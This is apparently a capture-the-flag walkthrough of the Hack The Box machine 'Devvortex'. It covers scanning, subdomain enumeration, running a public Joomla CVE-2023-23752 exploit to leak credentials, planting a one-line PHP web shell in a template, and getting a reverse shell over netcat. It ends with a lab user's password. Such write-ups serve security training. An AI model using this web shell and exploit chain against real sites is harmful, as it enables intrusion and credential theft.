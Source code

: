 # Devvortex

![[attachments/Pasted image 20240331134929.png]]

**Difficulty**: Easy
**OS**: Linux
**Category**:

# Nmap scan:

![[attachments/Pasted image 20240331135136.png]]

```shell
nmap -sCV -A -p- -T4 --min-rate=1000 -oN scan 10.10.11.242
```

Edit `/etc/hosts` file. `sudo nano /etc/hosts`

![[attachments/Pasted image 20240331135505.png]]

Navigate to website:

![[attachments/Pasted image 20240331135544.png]]

Directory scan:

![[attachments/Pasted image 20240331144826.png]]

```shell
ffuf -u http://devvortex.htb/FUZZ -w /usr/share/wordlists/dirb/common.txt
```

Nothing useful.

Further investigation of the site by checking page source, monitoring requests and responses gives no information.

Next is to perform sub domain enumeration, i tried using gobuster but no luck so i used wfuzz instead.


![[attachments/Pasted image 20240331145136.png]]

```shell
wfuzz -c -u http://devvortex.htb/ -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H "Host: FUZZ.devvortex.htb" --hc 302
```
Found a sub domain of `dev`. Add it to `/etc/hosts` file.

![[attachments/Pasted image 20240331145252.png]]

Visit the sub domain.

![[attachments/Pasted image 20240331145436.png]]

Directory scan:

![[attachments/Pasted image 20240331145939.png]]

Found an administrator page.

![[attachments/Pasted image 20240331150458.png]]

Joomla admin login page.

Running a tool called `joomscan` we are only able to obtain the version.

![[attachments/Pasted image 20240331151833.png]]

Searching online led to discover an exploit `CVE-2023-23752` for the version

![[attachments/Pasted image 20240331151955.png]]

Using the exploit from github, follow the steps to install the requirements.

![[attachments/Pasted image 20240331152042.png]]

Then git clone the repository.

```shell
git clone https://github.com/Acceis/exploit-CVE-2023-23752.git
```

`cd` into the folder and run the exploit

```shell
ruby exploit.rb http://dev.devvortex.htb
```

![[attachments/Pasted image 20240331152212.png]]

We have 2 users and 1 password.

Login to the admin panel.

![[attachments/Pasted image 20240331152256.png]]

Now to find a way to gain a shell.

Navigating to this blog

![[attachments/Pasted image 20240331160008.png]]

[Link](https://vulncheck.com/blog/joomla-for-rce)

We have 2 ways to gain a shell, modifying a template or installing a malicious joomla plugin. 

![[attachments/Pasted image 20240331160048.png]]

I tried the steps in the blog by first inserting a web shell payload in index.php but it doesn't work and indicates i only have read access.
![[attachments/Pasted image 20240331160251.png]]


Tried the second method by uploading a webshell but it also doesn't work also.

![[attachments/Pasted image 20240331160504.png]]

Note: you can access the templates and extensions by going to the settings tab:

![[attachments/Pasted image 20240331160347.png]]

So what i did was to create a new file in templates named shell.php and insert my webshell payload there.

![[attachments/Pasted image 20240331160610.png]]

![[attachments/Pasted image 20240331160633.png]]

![[attachments/Pasted image 20240331160651.png]]

Payload:

```php
<?php system($_GET['cmd']); ?>
```

Save the file.

Access it by navigating to `http://dev.devvortex.htb/templates/cassiopeia/shell.php?cmd=id`

![[attachments/Pasted image 20240331160740.png]]

And we have command execution

![[attachments/Pasted image 20240331160810.png]]

Now to gain a reverse shell.

First check our current directory to know where the payload will be delivered to.

![[attachments/Pasted image 20240331164937.png]]

Next we upload a php reverse shell. I will be using [this](https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php). Change IP to you VPN IP.
![[attachments/Pasted image 20240331165134.png]]

I will rename the file to something simpler like `revshell.php`

I will be transferring the file using netcat.

Host the file:

![[attachments/Pasted image 20240331165259.png]]

```shell
nc -lvnp PORT < file
```

Download the file.

![[attachments/Pasted image 20240331165346.png]]

```
nc IP PORT > file
```

File transferred:

![[attachments/Pasted image 20240331165429.png]]

Now to execute the payload.

Start a netcat listener on the port specified in the revshell payload.

![[attachments/Pasted image 20240331165555.png]]

Execute payload by navigating to the file.

![[attachments/Pasted image 20240331165622.png]]

And we have a shell:

![[attachments/Pasted image 20240331165822.png]]

What this means is that we never even needed to file get a web shell, we could have created the revshell payload from the admin panel. Here is the file now present in the admin panel.

![[attachments/Pasted image 20240331165840.png]]

Although nothing bad in learning how to get web shells.

Next up is to stabilize the shell

```shell
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
Ctrl + Z (background shell)
stty raw -echo;fg
Press ENTER
```


logan password `password123#`